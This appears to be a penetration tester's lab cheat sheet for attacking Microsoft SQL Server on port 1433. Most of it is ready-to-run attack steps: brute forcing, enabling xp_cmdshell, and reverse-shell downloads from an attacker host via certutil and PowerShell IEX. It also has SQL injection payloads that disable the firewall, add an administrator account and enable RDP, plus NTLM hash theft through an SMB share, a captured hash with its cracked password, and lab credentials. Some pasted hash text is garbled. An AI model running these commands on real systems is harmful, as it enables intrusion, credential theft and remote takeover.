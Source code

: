 ### **Checks**

- [ ] Try default credentials "`sa`:`password`"
- [ ] Brute force creds
- [ ] Check database content for new passwords
- [ ] Check version for exploits
- [ ] RCE
    - [ ] through `xp_cmdshell` functionality
    - [ ] through injecting payload in output file, placing it in webroot and triggering it through webapp

#### Quick Enumeration
```bash - kali
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET
```

```bash - kali
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts $TARGET
```


#### Connect with sqsh
```bash - kali
sqsh -S $TARGET:1433 -U sa
```

```bash - kali
RPSsql12345
```

#### Connect with mssql-shell.rb  - 404 page
```bash - kali
wget https://raw.githubusercontent.com/dr0pb3ar/mssql-shell/master/mssql-shell.rb
```

```bash - kali
sudo gem install tiny_tds colorize
```

```bash - kali
sudo apt install freetds-dev
```

```bash - kali
chmod +x mssql-shell.rb
```

```bash - kali
sudo ./mssql-shell.rb -u username -p password $TARGET
```

```bash - kali
select @@version;
```

```bash - kali
:xp_cmdshell whoami
```

If this errors, just follow [[Port 1433 - MSSQL ~#sp_cmdshell]] or [[Port 1433 - MSSQL ~#xp_cmdshell]] to enable the feature.

[[1._Reverse Shells (WIN)]]

[[Python#Server]]

[[4._File Transfers]]

```bash - kali
:xp_cmdshell certutil -urlcache -split -f http://$KALI/reverse.exe
```

[[1._rlwrap]]

```bash - kali
:xp_cmdshell reverse.exe
```

#### Connect with mssql_shell.py - BROKEN?
```bash - kali
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/mssql/mssql_shell.py
```

Input Target IP, username and password.

```bash - kali
python mssql_shell.py
```

#### Connect with MSSQLClient
```
mssqlclient.py <HOSTNAME>/$USER:'<PASSWORD>'@$TARGET -windows-auth
```

`mssqlclient.py QUERIER/reporting:'PcwTWTHRwryjc$c6'@$TARGET -`

#### sp_cmdshell
You may have to enter "go" after every command!

`1> sp_configure 'show advanced options’, '1'`

`2> go`

`...`

```SQL
sp_configure 'show advanced options', '1'
```

```SQL
RECONFIGURE
```

```SQL
sp_configure 'xp_cmdshell', '1'
```

```SQL
RECONFIGURE
```

```SQL
EXEC master..xp_cmdshell 'whoami'
```

[[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

[[1._rlwrap]]

```SQL
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

#### xp_cmdshell
```SQL
enable_xp_cmdshell
```

```SQL
go
```

```SQL
xp_cmdshell 'date'
```

```SQL
 go
```

```SQL
xp_cmdshell whoami
```

```SQL
go
```

#### Powershell reverse shell
```python - kali
sudo python3 -m http.server 80
```

[[Python#Server]]

[[1._rlwrap]]

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

```SQL
xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/powershell_reverse_tcp.ps1') | powershell -noprofile -"
```

```SQL
go
```

Python:
```SQL
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

[https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

#### xp_cmdshell RDP
```SQL
' UNION ALL SELECT 1,2--
```

```SQL
' UNION ALL SELECT @@version,2--
```

```SQL
' union select @@version,2; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'xp_cmdshell', 1; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'ping localhost'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'dir c:'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net user foobar Password123 /add'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

```bash
rdesktop -a 16 -z -u foobar -p Password123 $TARGET
```

RDP was already enabled in the above example. If disabled, we can try enabling RDP with:

```SQL
' union select user,null; exec master..xp_cmdshell ''reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f''; --
```

#### Enumeration
```SQL
select @@version;
```

```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```SQL
SELECT name FROM master.sys.databases
```

```SQL
use volume
```

#### Steal NTLM hash
```bash - kali
mkdir share
```

```bash - kali
smbserver.py -smb2support share share/
```

```bash - kali
exec master..xp_dirtree '\\$KALI\share\',1,1
```

```
mssql-svc::QUERIER:4141414141414141:fcf5ce3bc7c6f2d4cc186363f57a4afb:0101000000000000805cb28d9e1fd801cfdf67806cdb917000000000010010006e006b006f004f006c0070006b0049000200100061006800630076007a00630045005900030010006e006b006f004f006c0070006b0049000400100061006800630076007a0063004500590007000800805cb28d9e1fd80106000400020000000800300030000000000000000000000000300000bdca754ed8e5710ee15f0f7d0238f5927e0ad033b727c638d8831685eafab2d20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000
```

![[Hashcat#NetNTLMv2]]
```
MSSQL-SVC::QUERTER:4141414141414141:fCf5ce3bc7C6F2daCC186363F57adafb:0101006006000000805Cb28d0e10801FdF67806db91706006000001601606e086h606004006C0670006D6940006200100061606800630076007a606300450050060360160066006b086604F0O6C0070086hBB496004001000610068006307606726063004500500667600860865Cb28d0e1Fd36106006400020000600800300030060060060000000006006000300000bdca754edBe5710ee1507002387527e0ad033b727C6388831685eafab2d2620610060060060060000006006006000000000699601€0063006006666073002 F0031063060260310030062200316036022003000000000000020000000000000:corporate568
```

`corporate568`

#### Getting hashes with tftp

From here had to get shell on [[10.11.1.31 - RALPH]] to see how Microsoft SQL Server layout is.

Using [[Abbreviated dir]]'s, we put together the path

`C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf`

However, we cannot read from there, so we aim to the backup folder:

`"C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf" $TARGET`

[[Port 69 - TFTP#tftp py]]

```
git clone https://github.com/xpn/Powershell-PostExploitation && cd Powershell-PostExploitation/ && cd Invoke-MDFHashes
```

Load PowerShell in Kali:

```bash - kali
pwsh
```

```PowerShell - kali
Import-Module ./Get-MDFHashes.ps1
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/PWK/10.11.1.111/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.Framework.dll
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/PWK/10.11.1.111/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.RawCore.dll
```

* Be sure to widen you terminal to see the whole hash!

```PowerShell - kali
Get-MDFHashes -mdf /home/kali/Desktop/PWK/10.11.1.111/master.mdf
```